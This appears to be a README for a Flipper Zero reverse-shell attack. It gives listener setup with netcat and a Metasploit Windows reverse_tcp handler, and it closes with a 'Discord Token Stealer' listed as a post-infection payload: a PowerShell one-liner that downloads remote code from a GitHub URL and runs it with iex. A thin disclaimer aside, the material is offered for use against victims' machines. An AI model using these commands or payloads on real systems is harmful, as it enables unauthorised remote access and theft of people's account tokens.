 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
• Additional payloads after infection
  - Discord Token Stealer
    (iwr https://raw.githubusercontent.com/CharlesTheGreat77/token2Discord/main/Testing.txt).Content | iex
